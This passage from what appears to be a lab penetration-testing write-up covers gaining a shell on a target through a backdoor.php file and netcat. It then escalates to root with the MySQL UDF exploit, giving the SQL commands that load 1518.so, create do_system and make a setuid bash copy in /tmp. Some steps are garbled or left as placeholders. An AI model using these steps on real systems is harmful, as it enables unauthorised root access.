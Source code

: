 After editing and executing the provided script to include the target IP in the URL, we back to the website to see that /backdoor.php was created and can execute code as a normal user, we exploit this by opening a `netcat` connection
to open, but the shell is unstable.

Luckily, since `Python` is installed on the system, we can run the python code to gain a stable shell running on python `python -c 'import pty;pty.spawn("/bin/bash")'`  and boom! we have a stable bash shell!


* **Access to MySQL**
     * The MySQL credentials are in the same place and are the same





## *Briggs* - Target 2 Escalation (Slides 17-24)
</br>


<details><summary>Click here for the written script, instead of just bullet points</summary></details>
</br>


* **Escalation Requirements**
  * Access to MySQL
  * MySQL to run as root
  * SQL Version


* **MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)**
  * This vulnerability [describe vulnerability], so we can use this to use code as a root user, since MySQL is running as root.


* **Python SimpleHTTPServer**
  * I tried really hard to get the exploit to compile on the target machine, but I couldn't do it. So I had to compile it on my host machine using this guide link to guide, then use Python to host a simple HTTP server on `port 80`, then use the target machine to download it with `wget`


* **Code injection to create a copy of the root shell that anyone can launch found in /tmp/**
  * using the same guide, it gives us a full tutorial on dig this exploit to create a copy of a shell that anyone can run that opens a root bash shell
   * `insert into foo values(load_file('/tmp/1518.so'));`
   * `select * from foo into dumpfile '.usr/lib/1518.so';`
   * `create function do_systems returns integer soname '1518.so';`
   * `select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';`
   * `create function do_system returns integer soname 1518.so`
   * `select * from mysql.func`
  * and now we have the ability to run code as root through MySQL, the guide shows a method that allows us to copy /bin/bash as root, then chmod it so any user can run it, giving everyone access to root
  * `select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

 * **Or...just guess the root password...again...it's `toor`...**
